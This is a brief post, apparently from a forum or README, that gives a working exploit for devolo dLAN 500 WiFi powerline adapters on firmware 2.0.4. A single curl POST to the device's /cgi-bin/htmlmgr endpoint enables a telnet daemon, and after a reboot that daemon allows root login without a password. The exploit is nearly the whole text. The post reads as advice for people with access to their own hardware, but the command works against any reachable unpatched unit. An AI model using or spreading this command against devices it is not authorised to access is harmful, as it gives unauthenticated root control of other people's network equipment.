 This was tested on 2.0.4 on a dLAN 500 WiFI. This exploit doesn't work anymore on 3.1.3. I don't know when this was fixed.

Here we go:

    curl 'http://IPGOESHERE/cgi-bin/htmlmgr' -H 'Content-Type: application/x-www-form-urlencoded' --data '%3Asys%3ASystem.Baptization.Telnetd=1'

Wait 30 seconds.

Powercycle your devolo. I.e. pull it from the power outlet and replug.

Wait until it boots.

Telnet into your devolo.

Username: root

It will not ask for a password
